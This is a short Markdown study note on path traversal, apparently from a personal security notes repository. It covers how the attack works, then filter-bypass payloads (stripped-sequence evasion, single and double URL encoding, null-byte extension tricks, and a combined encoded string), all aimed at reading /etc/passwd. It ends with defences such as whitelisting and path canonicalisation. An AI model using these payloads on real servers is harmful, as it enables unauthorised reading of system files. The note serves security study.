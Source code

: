 # Path traversal
1. [General info](https://github.com/francescovolpe/Cyber-Security-Notes/blob/main/Web%20vulnerabilities/Path%20traversal.md#general-info)
2. [Bypass defences](https://github.com/francescovolpe/Cyber-Security-Notes/blob/main/Web%20vulnerabilities/Path%20traversal.md#bypass-defences)
3. [Defences](https://github.com/francescovolpe/Cyber-Security-Notes/blob/main/Web%20vulnerabilities/Path%20traversal.md#defences)

## General info
- ` <img src="/loadImage?filename=218.png"> `
- An attacker can request the following URL to retrieve the /etc/passwd file from the server's filesystem
- ` https://insecure-website.com/loadImage?filename=../../../etc/passwd `
- On Windows, both ../ and ..\ are valid directory traversal sequences

## Bypass defences
- elimination (strip):  `../ ` -> `....// `
  - Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  - If the file is loaded the code strip ../
- encode: ` %2e%2e%2f `
- double-encode: ` %252e%252e%252f `
- require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
- require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
- others

## Suggestions
- Don't always trust error messages
  - GET /image?filename=/etc/passwd ---> "No such file"
    - Try to add null byte
    - Try to add null byte and extension ----> %00.png
- Combine the cases:
  - Example: ....//....//....//etc/passwd%00.jpg (strip, double-encode, null byte, whitelist exstension)
  - %252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg

## Defences
- Avoid passing user-supplied input to filesystem APIs
- Use two layers of defense to prevent attacks
  - Validate the user input before processing it. Ideally, compare the user input with a whitelist of permitted values. If that isn't possible, verify that the input contains only permitted content, such as alphanumeric characters only.
  - After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
